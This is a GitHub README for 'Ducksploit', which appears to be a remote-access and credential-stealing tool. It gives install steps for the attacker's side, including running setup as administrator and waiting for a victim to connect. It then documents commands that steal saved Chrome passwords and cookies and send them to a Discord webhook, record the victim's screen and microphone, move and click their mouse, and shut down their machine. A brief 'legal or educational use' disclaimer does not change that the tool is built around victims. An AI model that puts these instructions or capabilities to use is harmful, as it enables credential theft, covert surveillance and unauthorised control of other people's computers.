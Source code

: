 [![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")](https://github.com/canarddu38/DUCKSPLOIT/blob/master/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)


## Install Ducksploit

####Hacker
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/master.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)


:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. Launch Ducksploit terminal using 'ducksploit'
   2. type 'uninstall'
   3. Done  :smile:


## **Commands**

#### Config
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| ipconfig  | ipconfig (your ipv4) | config your ip |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |
| open  | open (applicationname.exe) | open mensioned application |

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content) |
| createfile | createfile (text) | set the content of line1 of msg command |

#### Mysc
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| update | update | update ducksploit |
| exit | exit | exit from the ducksploit treminal |
| help | help | getting the list of all commands |
| shutdown | shutdown | make the victim's pc shutdown |
| reboot | reboot | make the victim's pc reboot |
| closesession | closesesion | make the victim's session close |
